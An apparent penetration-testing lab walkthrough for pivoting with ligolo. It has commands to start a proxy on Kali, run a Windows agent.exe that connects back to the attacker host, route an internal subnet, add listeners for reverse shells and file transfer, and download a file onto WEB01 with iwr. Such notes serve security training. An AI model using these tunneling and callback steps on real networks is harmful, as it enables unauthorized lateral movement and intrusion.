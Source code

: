 /home/kali/offsec/pivote

```powershell
# ./proxy -selfcert
```
You can see our ligolo is working  and started at all interfaces on port 11601

Now go to the windows machine [target]
```powershell
PS> .\agent.exe -connect <KALI-IP>:11601 -ignore-cert
```


you will get session like this select session 1
```powershell
[Agent : OFFSEC\jess@CLIENT01] » ifconfig
```
see the internal IP and add route in our kali:
```powershell
# sudo ip route add 172.16.153.0/24 dev ligolo
```
Now go to the proxy ligolo and enter start command
```powershell
[Agent : OFFSEC\jess@CLIENT01] » start
```
We can add the listners to get the reverse shell back or you can trasfer files by adding the listners!!

For File trasfers always use port 80
```powershell
[Agent : OFFSEC\jess@CLIENT01] » listener_add --addr 0.0.0.0:9292 --to 127.0.0.1:80
```
```powershell
[Agent : OFFSEC\jess@CLIENT01] » listener_list
```

Now go to WEB01 machine and enter 
```powershell

WEB01 PS> iwr -uri http://CLEINT01-INTERNAL-172-subnet-IP/filename -Outfile filename
```
```powershell
sudo ip link delete ligolo
```
